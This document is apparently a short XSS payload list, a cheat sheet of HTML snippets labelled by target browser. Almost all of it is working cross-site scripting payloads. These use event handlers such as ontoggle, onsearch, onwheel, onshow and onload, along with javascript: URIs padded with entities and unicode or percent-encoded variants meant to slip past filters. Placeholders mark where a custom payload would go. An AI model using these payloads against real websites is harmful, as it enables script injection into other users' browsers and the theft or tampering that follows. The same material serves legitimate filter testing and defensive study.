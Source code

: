 <details ontoggle=alert(1)> #chrome 
<input type="search" onsearch="aler\u0074(1)"> #chrome
<details ontoggle="aler\u0074(1)"> #chrome
¼script¾alert(¢xss¢)¼/script¾ #ie6 and ie7
<a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
<svg+onload=+"aler%25%37%34(1)"
<svg+onload=+"[DATA]"
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)"> #firefox
<body style="height:1000px" onwheel="alert(1)"> #firefox
<body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss"
onshow="prom%25%32%33%25%32%36x70;t(1)">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k
Payload]">
<body style="height:1000px" onwheel="[JS-F**k Payload]">
<div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
<body style="height:1000px" onwheel="[DATA]">
<b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)> #all
